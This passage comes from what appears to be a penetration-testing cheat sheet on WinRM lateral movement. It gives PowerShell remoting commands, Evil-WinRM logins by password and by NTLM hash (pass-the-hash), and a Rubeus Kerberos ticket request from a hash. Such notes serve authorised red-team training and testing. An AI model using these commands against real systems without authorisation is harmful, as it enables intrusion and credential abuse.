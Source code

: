 

### From Windows

* [https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm](https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm)

```
PS > winrm get winrm/config
PS > winrm set winrm/config/client '@{TrustedHosts="*"}'
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred
PS > Enter-PSSession -Session $sess
PS > Copy-Item .\file.txt -Destination "C:\users\administrator\music\" -ToSession $sess
```



### From Linux


#### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Basic syntax:

```
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H fc525c9683e8fe067095ba2ddc971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```

{% hint style="info" %}
Always use full username when authenticating as a domain user, because if there're 2 users sharing the same name (a local user and a domain user), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.
{% endhint %}

Execute a .NET binary:

```
*Evil-WinRM* PS > Invoke-Binary Rubeus.exe "asktgt, /domain:megacorp.local, /user:snovvcrash, /rc4:fc525c9683e8fe067095ba2ddc971889, /nowrap"
```


#### pwsh

```
$ pwsh
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
PS > Enter-PSSession -Session $sess
```




## SMB
